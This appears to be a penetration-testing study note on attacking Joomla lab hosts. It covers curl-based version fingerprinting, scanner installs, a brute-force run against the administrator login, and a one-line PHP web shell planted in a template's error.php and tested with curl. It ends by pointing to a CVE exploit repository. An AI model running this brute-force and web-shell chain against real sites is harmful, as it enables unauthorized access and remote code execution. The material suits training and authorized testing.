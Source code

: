 
# Discovery/Footprinting Versions

`grep joomla`
```shell-session
$ curl -s http://dev.inlanefreight.local/ | grep Joomla
```

`robots.txt`
```
curl -s http://dev.inlanefreight.local/robots.txt
```

`checking for readme.txt (contains version)`
```shell-session
$ curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain Joomla installs, we may be able to fingerprint the version from JavaScript files in the `media/system/js/` directory or by browsing to `administrator/manifests/files/joomla.xml`

`version fingerprint via js files`
```shell-session
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
The `cache.xml` file can help to give us the approximate version. It is located at `plugins/system/cache/cache.xml`.

```shell-session
$ sudo pip3 install droopescan
```

`run droopscan`
```shell-session
$ droopescan scan joomla --url http://dev.inlanefreight.local/
```


##### joomla scan

can help us  find accessible directories and files and may help with fingerprinting installed extensions
`joomlscan `
```
git clone https://github.com/drego85/JoomlaScan/blob/master/joomlascan.py
sudo python2.7 -m pip install urllib3
sudo python2.7 -m pip install certifi
sudo python2.7 -m pip install bs4

$ python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

## admin portal

`http://dev.inlanefreight.local/administrator/index.php`

 generic auth msgs:
```
Warning
Username and password do not match or you do not have an account yet.1
```

 bruteforcing admin portal:

`default user is admin but the password is set at install, so we need to rely on weak pass and bruteforcing`

`install brute tool`
```
git clone https://github.com/ajnik/joomla-bruteforce.git
```
`joomla auth brute`
```shell-session
$ sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

## ENUM AND  ATTACKS
we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.
From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.
Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

`ADD TO 404.php Template`
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

`test websh`
```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

### Known vulnerabilities

`target version: 3.10`
`check the release date for your version here, then look for exploits that target the same year...`
https://www.joomla.org/announcements/release-news
	https://github.com/dpgg101/CVE-2019-10945.git